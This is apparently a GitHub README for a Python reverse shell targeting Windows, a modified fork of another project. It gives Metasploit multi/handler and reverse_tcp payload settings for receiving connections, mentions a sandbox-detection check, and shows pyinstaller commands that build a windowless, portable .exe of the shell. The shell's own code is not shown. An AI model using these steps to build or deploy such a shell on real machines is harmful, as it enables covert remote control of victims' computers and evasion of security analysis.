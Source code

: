 # Python Reverse Shell For Windows
Reverse Shell written in Python3 - Modified version of trackmastersteve/shell

You can take advantage of post exploitation modules in Metasploit by using:
exploit/multi/handler 
set PAYLOAD linux/shell_reverse_tcp 
            windows/shell_reverse_tcp 
            etc. 

Modified for a less fragile shell and a check for sandbox

To use on Windows, create an executable using pyinstaller

python -m pip install pyinstaller

pyinstaller -wF ./reverse_shell.py


-w removes pop up windows
-F outputs a portable .exe file in the ./dist/ folder
